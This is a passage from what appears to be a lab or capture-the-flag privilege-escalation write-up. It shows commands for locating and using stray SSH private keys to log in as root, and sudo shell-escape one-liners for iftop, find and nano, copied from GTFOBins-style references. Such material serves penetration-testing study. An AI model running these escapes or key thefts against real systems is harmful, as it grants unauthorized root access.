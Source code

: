  And we get the root password.

 ## Privilege Escalation - SSH keys

 We can try to find the id_rsa file in the system if present we can use to login to the system

 ```bash
 $find / -name id_rsa 2>/dev/null
 ```

 We get the location of id_rsa file and now we can save the file with 600 permission and we can log into the system using this private key.

 ```bash
 $chmod 600 id_rsa
 $ssh -i id_rsa root@<ip>
 ```

 ## Privilege Escalation - Sudo (Shell Escaping)

 If we run ```sudo -l``` we can see there are bunch of binaries that has sudo with nopasswd permission for the user (the binaries are iftop, find, nano, vim, man, awk, less, ftp, nmap, more)

 We will try to escape them one by one.

 ### iftop
 
 From [GTFobins](https://gtfobins.github.io/gtfobins/iftop/#sudo) If the binary is allowed to run as superuser by **sudo**, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access. 

```bash
$sudo iftop
$!/bin/sh
```

### find

```bash
$sudo find . -exec /bin/sh \; -quit
# or 
$sudo find . -exec /bin/bash \; -quit
```

### nano

```bash
$sudo nano
^R^X
reset; sh 1>&0 2>&0
```

And we will get a root shell within the nano editor

### vim
